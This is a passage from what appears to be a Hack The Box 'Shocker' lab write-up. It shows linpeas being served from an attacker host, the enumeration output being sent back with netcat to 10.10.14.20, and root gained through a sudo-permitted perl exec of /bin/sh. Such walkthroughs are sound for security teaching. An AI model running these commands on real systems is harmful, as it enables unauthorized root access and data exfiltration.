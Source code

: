 We setup a webserver on our host on port 8000 with a linpeas.sh script:

```
┌──(user㉿kali)-[~/hackthebox/hackthebox/shocker/upload]
└─$ cp /home/user/Downloads/linpeas/linpeas.sh .
                                                                                                                                          
┌──(user㉿kali)-[~/hackthebox/hackthebox/shocker/upload]
└─$ python -m SimpleHTTPServer 8000
Serving HTTP on 0.0.0.0 port 8000 ...
```

We download and execute the Linpeas.sh script:

![ImgPlaceholder](screenshots/download-execute-linpeas.png)

Then we upload the output to our machine:

```
$ nc 10.10.14.20 6666 < linpeas.out
```

```
$ nc -lnvp 6666 > linpeas.out
```

We find that the user shelly can run /usr/bin/perl as root:

```
User shelly may run the following commands on Shocker:                                                                                    
    (root) NOPASSWD: /usr/bin/perl  
```

We can use perl to escalate our privileges to root:

```
$ whoami
shelly
$ sudo /usr/bin/perl -e 'exec "/bin/sh";'
whoami
root
```

